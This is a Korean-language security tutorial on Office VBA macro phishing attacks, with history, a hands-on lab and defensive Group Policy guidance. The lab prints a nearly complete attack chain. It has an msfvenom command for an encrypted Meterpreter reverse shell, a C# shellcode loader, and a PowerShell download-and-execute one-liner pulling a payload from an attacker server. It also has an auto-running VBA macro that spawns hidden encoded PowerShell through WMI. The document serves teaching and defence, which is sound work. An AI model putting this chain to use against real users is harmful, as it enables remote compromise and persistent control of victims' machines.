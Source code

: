 # 오피스 VBA 매크로

비쥬얼 베이직 어플리케이션 (VBA) 매크로는 마이크로소프트 오피스 제품들의 자동화를 도와주는 비쥬얼 베이직 6.0 기반의 프로그래밍 언어다. 보안적으로는 90년대부터 피싱 공격 첨부파일안의 악성코드를 실행하는데 많이 사용됐다.

2022년 기준 오피스 VBA 매크로를 사용한 초기 침투 및 피싱 공격은 성공하기 매우 어려워졌다. 마이크로소프트는 2022년 2월에 모든 오피스 제품들과 오피스365에서[ 기본적으로 매크로를 비활성화 하도록 패치](https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)했다. 2022/07/07에 잠깐의 롤백이 있었지만 7월 24\~25일, 다시 인터넷에서 다운 받은 문서들의 VBA 매크로를 기본적으로 비활성화 시켰다. 30년 간의 매크로 피싱이 드디어 끝을 보이기 시작했다.

이제는 잘 쓰이지 않게 된 TTP지만 거의 30년 동안 공격자들이 사용했던 역사적인 가치가 있는 공격 기법이기 때문에 기초를 닦는다는 마음가짐으로 이 페이지에서 정리한다. 또한, 모두가 항상 오피스365를 쓰거나, 온-프레미스 오피스 버전들이 항상 최신 버전으로 업데이트 되는 것은 아니기 때문에 추후 몇 년 간은 매크로 기반의 페이로드들은 계속해서 쓰일 것이다.

### AutoOpen, Document\_Open

오피스 제품들에서 실행되는 VBA 매크로 중 AutoOpen() 과 Document\_Open() 함수는 파일을 열자마자 자동적으로 실행되는 함수다. 이를 막는 MotW (Mark of the Web), Protected Views, 그리고 Enable Content 등의 방어 기법들이 있어 요새는 문서를 연다고 해서 VBA 매크로가 자동적으로 실행되지는 않는다. 그러나 피해자 유저가 방어 기법들을 모두 비활성화 하거나 허용할 시 위에서 언급된 함수들이 실행된다.

### 실습

이번 실습에서는 다음과 같은 공격 체인을 만들어본다:

* 워드 프로세스 -> VBA 매크로 -> WMI -> 파워쉘 -> C# .NET 로더 -> Meterpreter

중간에 VBA 매크로에서 WMI를 사용하는 것은 쉘이 워드 프로세스 파일이 아닌 `WmiPrvSE.exe` 파일의 자식 프로세스로 생성되기 때문이다. 이 경우 피해자 유저가 워드 문서 파일을 닫아도 쉘은 살아있게 된다.

1. 먼저 Meterpreter 쉘코드를 `msfvenom` 을 이용해 만든다.

```
msfvenom -p windows/x64/meterpreter/reverse_http lhost=192.168.40.182 lport=443 --encrypt aes256 --encrypt-key 'qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT' --encrypt-iv '?aEe(fG+KbPe23fz' -f csharp
```

2\. 이 Meterpreter 쉘을 로드해 실행할 C# .NET 로더를 만든다. 슬리버 C2의 스테이저 코드를 수정한 뒤 사용했다.

<details>

<summary>MeterStager.cs</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace MeterStager
{
    public class Stager
    {
        private static string aesKey = "qaG+eb3eShkiYq3tuv9y!B&E)$@Mc%fT";
        private static string aesIV = "?aEe(fG+KbPe23fz";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            byte[] shellcode = new byte[720] {
            	
            < ... Meterpreter 쉘코드 ... >  

            };


            shellcode = Decrypt(shellcode, aesKey, aesIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)0xfff0000, 0x3000, 0x40);
            //Console.WriteLine("[+] addr: {0}", addr.ToInt64().ToString("x2"));
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            //Console.WriteLine("[+] shellcode length: {0}", shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

3\. 이후 이 MeterStager.cs C# .NET 로더는 파워쉘에 로드되어 실행된다. 공격자의 다른 서버 `192.168.40.179` 의 포트 9999에서 파일을 받아온 뒤, Reflection을 이용해 로드한 뒤, 메인 EntryPoint를 실행하도록 파워쉘 페이로드를 준비한다.

```
iex([System.Reflection.Assembly]::Load((New-Object net.webclient).DownloadData('http://192.168.40.179:9999/MeterStager.exe'))).EntryPoint.Invoke($null, [Object[]]@(@(,([String[]]@()))))
```

위 파워쉘 페이로드를 VBA 매크로에 들어가도록 유틸 스크립트를 이용해 base64 인코딩 한다.

<details>

<summary>Invoke-VBAps.ps1</summary>

```powershell
$s = @'
 < your powershell payload here > 
'@
 
<# Just copy/paste everything below! #>
$EncodedText =[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($s))  

$array = @()
[System.Collections.ArrayList]$ArrayList = $array
$EncodedText -split '(.{300})' | Where-Object {
    $ArrayList.Add($_) | out-null
}

foreach ($item in $ArrayList){
    if([string]::IsNullOrEmpty($item)){
        continue
    }
    else{
        if($item -eq $ArrayList[-1]){
            '"' + $item +'"' 
            break 
        }
        '"' + $item + '" & _'
    }
}
```

</details>

4\. 이제 완성된 파워쉘 페이로드를 VBA 매크로에다가 집어넣은 뒤, 문서를 생성하면 된다.

<details>

<summary>go.vba</summary>

```vba
Sub Document_Open()
    test
End Sub

Sub AutoOpen()
    test
End Sub

Function test()
    Const HIDDEN_WINDOW = 12

    strComputer = "."
    Set objWMIService = GetObject("winmgmts:" _
        & "{impersonationLevel=impersonate}!\\" & strComputer & "\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")

    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    
    Dim proc As Object
    Set proc = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    Dim str As String
    
    str = "powershell -exec bypass -nologo -nop -w hidden -enc " & _
    "aQBlAHgAKABbAFMAeQBzAHQAZQBtAC4AUgBlAGYAbABlAGMAdABpAG8AbgAuAEEAcwBzAGUAbQBiAGwAeQBdADoAOgBMAG8AYQBkACgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAEQAYQB0AGEAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMAAuADEANwA5ADoAOQA5ADkAOQAvAFMAbABpAHYAZQBy" & _
    "AFMAdABhAGcAZQByAC4AZQB4AGUAJwApACkAKQAuAEUAbgB0AHIAeQBQAG8AaQBuAHQALgBJAG4AdgBvAGsAZQAoACQAbgB1AGwAbAAsACAAWwBPAGIAagBlAGMAdABbAF0AXQBAACgAQAAoACwAKABbAFMAdAByAGkAbgBnAFsAXQBdAEAAKAApACkAKQApACkA"
    
    errReturn = proc.Create(str, Null, objConfig, intProcessID)
End Function
```

</details>

Chameleon과 VBA script 난독화를 진행할 경우 디펜더 우회는 가능하지만, 모든 공격 PoC가 그렇듯 무기화는 진행하지 않는다.

실행하면 다음과 같은 결과가 나온다.

![](../../.gitbook/assets/blog-simple-vba.gif)

### 대응 방안

* 업데이트된 오피스 제품들이나 오피스365를 사용한다면 기본적으로 악성 VBA 매크로가 비활성화 되어 있다. - 라고 생각했지만 07/07일 마이크로소프트 사가 이를 [롤백](https://www.bleepingcomputer.com/news/microsoft/microsoft-rolls-back-decision-to-block-office-macros-by-default/)했다.
* 마이크로 오피스 전용 그룹 정책 Administrative Template File 을 다운 받은 뒤, 그룹 정책을 설정한다. 그룹 정책을 설정할 때에는 유저 그룹마다, 호스트 그룹마다 따로 GPO를 설정하는 것이 권장된다.
* 예를 들어, VBA 매크로 자체를 비활성화 해버리는 GPO의 경우 회계부서 OU 보다는 IT나 세일즈 유저들이 있는 OU에 링크 하는 것이 바람직할 것이다.
* VBA 비활성화 혹은 디지털 서명된 VBA만 사용 - `Computer/User Configuration\Policies\Administrative Templates\Microsoft Office XXXX\Security Settings\Disable VBA Office applications`
* 개인이나 GPO가 필요없는 소규모 네트워크의 경우 엔드 유저가 직접 비활성화 시킬수도 있다.
  * 워드 -> Options -> Trust Center -> Trust Center Settings -> Macro Settings -> VBA 완전 비활성화 혹은 디지털 서명된 VBA 만 허용

![](../../.gitbook/assets/endpoint-no-vba.png)

* 현 조직에서 매크로를 많이 사용한다면 인터넷에서 받은 문서+매크로 파일들만 비활성화 하는 GPO를 사용한다.
  * ![](<../../.gitbook/assets/image (13).png>)
  * `User Configuration\Policies\Administrative Templates\Block macros from running in Office files from the Internet - Protected`
* 더 자세한 대응 방안은 레퍼런스를 참고한다.

### 레퍼런스

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=49030" %}

{% embed url="https://4sysops.com/archives/restricting-or-blocking-office-2016-2019-macros-with-group-policy/" %}

{% embed url="https://docs.microsoft.com/en-us/deployoffice/security/internet-macros-blocked#block-macros-from-running-in-office-files-from-the-internet" %}
